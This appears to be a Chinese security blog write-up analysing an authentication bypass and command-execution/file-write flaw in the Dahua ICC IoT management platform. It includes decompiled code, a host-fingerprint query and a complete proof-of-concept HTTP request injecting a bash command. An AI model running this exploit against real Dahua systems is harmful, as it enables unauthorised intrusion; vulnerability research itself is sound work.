

# 大华智能物联管理平台1day分析-先知社区

> **来源**: https://xz.aliyun.com/news/18518  
> **文章ID**: 18518

---

## 序言

当看到这个漏洞的时候心里还是很有感触的，因为漏洞本身利用也比较简单，自己和我的朋友`lookeye`一起分析的比较多，在国护中也派上了大用场，因为大华ICC这个系统影响面还是比较大的，今天闲来无事就把之前朋友之前一起写的分析发表出来，希望大家可以积极交流，菜鸡勿喷。

## 指纹

### hunter

```
body="*客户端会小于800*"
```

### 前台命令执行\任意文件写入- `/evo-runs/v1.0/receive`

#### 漏洞分析

漏洞点在  
`com.dahua.evo.runs.service.impl.MsgDealServiceImpl#msgDeal(com.dahua.evo.runs.agent.AgentMsgParam)`

```
public ResultMessage msgDeal(AgentMsgParam agentMsgParam) throws Exception {
    if (agentMsgParam != null) {
    String method = agentMsgParam.getMethod();
        if (StringUtils.isNotEmpty(method)) {
            MsgHandler msgHandler = this.msgHandlerExecuteFactory.getMsgHandler(method);
            if (msgHandler != null) {
            return msgHandler.msgDeal(agentMsgParam);
        }
        } 
    } 
    throw new BusinessException(ResultCodeEnum.INTERFACE_NOT_FOUND);
}
```

可以调用部分`MsgHandler`的`MsgDeal`方法，这个`Service`在`com.dahua.evo.runs.controller.agent.MsgDealConrtoller`中有多处调用，这里几个路由的处理方式都差不多，就拿`/evo-runs/v1.0/receive`来分析，`com.dahua.evo.runs.controller.agent.MsgDealConrtoller#receive`的具体实现

```
@PostMapping(value={"/receive"})
public ResultMessage receive(@RequestBody AgentMsgParam agentMsgParam, HttpServletRequest request) throws Exception {
    RequestHolder.add((HttpServletRequest)request);
    agentMsgParam.setRequestIp(IpUtil.getRemoteHost((HttpServletRequest)request));
    return this.msgDealService.msgDeal(agentMsgParam);
}
```

基本上就是直接调用了`msgDeal`但是这是一个鉴权路由，需要绕过鉴权，也需要寻找到可利用的`MsgHandler`

> 鉴权绕过

鉴权`filter`

`com.dahua.evo.runs.filter.AuthFilter#doFilter`

```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
    if (!this.authEnable) {
        filterChain.doFilter(servletRequest, servletResponse);
            return;
    }
    HttpServletRequest httpServletRequest = (HttpServletRequest)servletRequest;
    HttpServletResponse httpServletResponse = (HttpServletResponse)servletResponse;
    String[] requestURIParams = httpServletRequest.getServletPath().split("/");
    String[] matchedRequestURIParams = Arrays.copyOfRange(requestURIParams, 1, requestURIParams.length);
    String matchedRequestURI = "/" + StringUtils.join(Arrays.asList(matchedRequestURIParams), (String)"/");
    BodyReaderHttpServletRequestWrapper request = new BodyReaderHttpServletRequestWrapper(httpServletRequest, FILE_METHOD_SET.contains(matchedRequestURI));
    String content = SignUtil.getBodyString((ServletRequest)request);
    if (StringUtils.isNotEmpty((CharSequence)content)) {
        String signFlag;
        Map paramsMap = SignUtil.parseJsonToMap((String)(content = this.getParamsExcludeFile(matchedRequestURI, content)));
        if (this.releaseMethodSet.contains(paramsMap.get("method"))) {
            filterChain.doFilter((ServletRequest)request, servletResponse);
            return;
        }
        String flag = httpServletRequest.getHeader("X-Subject-HeaderFlag");
        if (StrUtil.isNotBlank((CharSequence)flag) && "ADAPT".equals(flag) && StrUtil.isBlank((CharSequence)(signFlag = httpServletRequest.getHeader("X-Subject-Sign")))) {
            filterChain.doFilter((ServletRequest)request, servletResponse);
            return;
        }
        flag = httpServletRequest.getHeader("X-Subject-HeaderFlag");
        if (StrUtil.isNotBlank((CharSequence)flag) && "CLOUD".equals(flag)) {
            filterChain.doFilter((ServletRequest)request, servletResponse);
            return;
        }
        if (this.serverIsCloud || this.serverIsAgent) {
            filterChain.doFilter((ServletRequest)request, servletResponse);
            return;
        }
        String signature = httpServletRequest.getHeader("X-Subject-Sign");
        if (StringUtils.isNotEmpty((CharSequence)signature)) {
            String serverCode = (String)paramsMap.get("serverCode");
            if (StringUtils.isNotEmpty((CharSequence)serverCode)) {
                String secret = this.generateSerret(serverCode, matchedRequestURI, this.getRpcMethod(content));
                if (StringUtils.isNotEmpty((CharSequence)secret)) {
                    if (SignUtil.verifySign((Map)paramsMap, (String)signature, (String)secret)) {
                        filterChain.doFilter((ServletRequest)request, servletResponse);
                        return;
                    }
                    this.logger.error("\u63a5\u53e3\u9274\u6743\u5931\u8d25\uff0c\u8def\u5f84:{}, \u539f\u56e0:{}", (Object)matchedRequestURI, (Object)"\u53c2\u6570\u9274\u6743\u4e0d\u5408\u6cd5");
                } else {
                    this.logger.error("\u63a5\u53e3\u9274\u6743\u5931\u8d25\uff0c\u8def\u5f84:{}, \u539f\u56e0:{}", (Object)matchedRequestURI, (Object)"\u5bf9\u5e94\u79d8\u94a5\u4e3a\u7a7a");
                }
            } else {
                this.logger.error("\u63a5\u53e3\u9274\u6743\u5931\u8d25\uff0c\u8def\u5f84:{}, \u539f\u56e0:{}", (Object)matchedRequestURI, (Object)"\u5bf9\u5e94serverCode\u4e3a\u7a7a");
            }
        } else {
            this.logger.error("\u63a5\u53e3\u9274\u6743\u5931\u8d25\uff0c\u8def\u5f84:{}, \u539f\u56e0:{}", (Object)matchedRequestURI, (Object)"X-Subject-Sign\u4e3a\u7a7a");
        }
    }
    this.logger.error("\u63a5\u53e3\u9274\u6743\u5931\u8d25\uff0c\u8def\u5f84:{}, \u53c2\u6570:{}", (Object)matchedRequestURI, (Object)content);
    httpServletResponse.setCharacterEncoding("utf-8");
    PrintWriter printWriter = httpServletResponse.getWriter();
    printWriter.print("{"success":false,"code":" + ResultCodeEnum.AGENT_AUTH_FAIL.getCode() + ","errMsg":"\u672a\u767b\u5f55\uff0c\u8bf7\u91cd\u65b0\u767b\u5f55","data":{}}");
    printWriter.flush();
    printWriter.close();
}
```

并且`urlPatterns`为

```
{"/v1.0/receive", "/v1.0/push", "/v1.0/receive/*", "/v1.0/push/*"}
```

通过这个`filter`的几个分支

* `method`在 `releaseMethodSet`中
* 请求头`X-Subject-HeaderFlag`为`ADAPT`
* 请求头`X-Subject-HeaderFlag`为`CLOUD`
* `this.serverIsCloud || this.serverIsAgent`
* 请求头`X-Subject-Sign`满足后续的签名验证

最容易实现的就是`X-Subject-HeaderFlag: ADAPT`或`X-Subject-HeaderFlag: CLOUD`，这个在不同版本有差异，``X-Subject-HeaderFlag: ADAPT`更通用，现在就可以成功绕过鉴权

> 命令执行/任意文件写入

寻找`com.dahua.evo.runs.agent.handler.AbstractMsgHandler`的所有实现

找到一些可利用的类

```
com.dahua.evo.runs.agent.receive.handler.module.OssmConfigHandler
com.dahua.evo.runs.agent.receive.handler.ha.IpChangedHandler
```

以`OssmConfigHandler`为例

```
public ResultMessage msgDeal(AgentMsgParam agentMsgParam) throws BusinessException {
    JSONObject jsonObject = agentMsgParam.getInfo();
    if (jsonObject == null) {
        throw new BusinessException(ResultCodeEnum.AGENT_PARAM_INCORRECT);
    }
    CommonAgentParam commonAgentParam = (CommonAgentParam)JSON.toJavaObject((JSON)jsonObject, CommonAgentParam.class);
    boolean ifSaved = writeMappingFile(commonAgentParam.getFilePath(), commonAgentParam.getConfigure()).booleanValue();
    this.logger.info("ossmconfighandler write {} to {}", commonAgentParam.getConfigure(), commonAgentParam.getFilePath());
    if (ifSaved) {
        String shellPath = (String)commonAgentParam.getParamMap().get("shellPath");
        String filePath = (String)commonAgentParam.getParamMap().get("filePath");
        Executor.execute(shellPath, new String[] { "5", "EXT_NET", filePath });
        } else {
            throw new BusinessException(ResultCodeEnum.PARAM_INVALID);
    } 
    return new ResultMessage(Collections.emptyMap());
}
```

这里存在两个问题第7行的`writeMappingFile`文件名和文件内容都可控，第12行的`Executor.execute`命令可控，所以这里既可以执行任意命令也可以写入文件，但是这里不会解析`jsp`文件，写入文件`getshell`的方式还要进一步寻找

#### 复现过程

```
POST /evo-runs/v1.0/receive HTTP/2
Host: 192.168.89.10
X-Subject-Headerflag: ADAPT
Sec-Ch-Ua-Platform: "Windows"
Authorization: 
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://192.168.89.10/
Accept-Encoding: gzip, deflate, br
Priority: u=4, i
Content-Type: application/json
Content-Length: 237

{
  "method": "agent.ossm.mapping.config",
  "info": {
    "configure": "x",
    "filePath": "x",
    "paramMap": {
      "shellPath": "/bin/bash -c 'id>/opt/evoWpms/static/jquey-1.3.3.js'",
      "filePath": "x"
    },
    "requestIp": ""
  }
}
```



## 结尾

其实到这里才刚开始，而且网上的分析好像也不是特别全面，因为有很多接口还依旧存在没鉴权的情况，那么原理其实都和上面一样。还有一个点就是，因为涉及到后利用的环节，大华ICC它本身是不会解析任何jsp文件的，如果读者去仔细寻找一下代码的精妙之处是能够发现大华ICC是有一处漏洞点可以利用它自身开启的服务去解析jsp文件的，当然这只是一种手法，同时这也是一位大哥告诉我的小技巧哈哈哈，这其中还有很多种骚套路等着大家挖掘，就当留一个课堂小作业吧，目的不是为了发漏洞，而是希望大家可以一起交流关于代码审计的思路，非常感谢大家花费几分钟观看文章。

​

## 小福利

团队官网：https://redcellsec.cn/，希望各位师傅能积极交流、一起学习，共同营造网络安全良好技术氛围，旨在技术交流分享，目前群聊大于200人无法再通过二维码加入交流群，想加入技术交流群的师傅可以通过公众号后台获取邀请链接，后续会不定期在公众号上分享一些实战干货或者实用的工具以及资讯，希望能看到更多师傅们一起来交流行业前沿技术！
